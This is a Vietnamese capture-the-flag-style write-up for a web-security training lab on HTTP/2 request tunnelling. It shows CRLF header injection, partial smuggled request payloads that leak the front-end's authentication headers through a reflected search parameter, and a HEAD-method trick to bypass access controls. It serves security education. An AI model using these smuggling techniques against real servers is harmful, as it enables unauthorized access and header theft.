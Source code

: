 ## Bypassing access controls via HTTP/2 request tunnelling (REFER)

1. Xác định được có thể smuggling thông qua CRLF header. Ví dụ ở đây khi inject header HOST bất kỳ vào request nhận được thông báo lỗi chứng tỏ cố gắng kết nối đến giá trị host.

![image](https://user-images.githubusercontent.com/80744099/230790461-b8145add-dccf-494e-a1a1-d9473897fdbd.png)

2. Ở lab này ô search là một reflect input. Lợi dụng điều này ta có thể lấy giá trị các authentication header được FE server thêm vào bằng cách đặt content-length và cắt phần body của request để param search phía trước các authentication header.

```
GET /?search=x HTTP/2
Host: 0a0a00d8040641e282cc0266003f0011.web-security-academy.net
...
...{Authentication header}
Content-Length: 8

search=x
```

- Sau khi inject payload:
```
GET /?search=x HTTP/2
Host: 0a0a00d8040641e282cc0266003f0011.web-security-academy.net
...
Foo: bar
Content-Length: 168

search=x:x
...{Authentication header}
Content-Length: 8

search=x
```

![image](https://user-images.githubusercontent.com/80744099/230791219-1471941e-ce0a-4e88-82c0-5c0f782663a0.png)

3.  Thay đổi giá trị content-length để xác định toàn bộ header cần thiết.  Nhận được các header trong đó ``X-SSL-CLIENT-CN`` chứa username.

```
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 9084482102113161
```

4. Chuyển sang method HEAD và thêm các giá trị thích hợp cho authentication header vào smuggling request (HEAD method chỉ trả lại các header mà không có phần body trong đó header Content-Length là độ dài phần body của GET request đó) -> Do đó với `path: /` HEAD request sẽ có CL lớn và tunneled response sẽ không đủ dài nên server sẽ trả về lỗi. 

![image](https://user-images.githubusercontent.com/80744099/230791645-fbb13c25-b4dd-47ee-ad82-7d70adc3aa92.png)

5. Chuyển sang các endpoint khác mà có nội dung trả về của Method GET của endpoint đó nhỏ hơn tunnelled response. 

![image](https://user-images.githubusercontent.com/80744099/230791805-05781b6c-e04a-4673-abef-a4c43a8483cd.png)
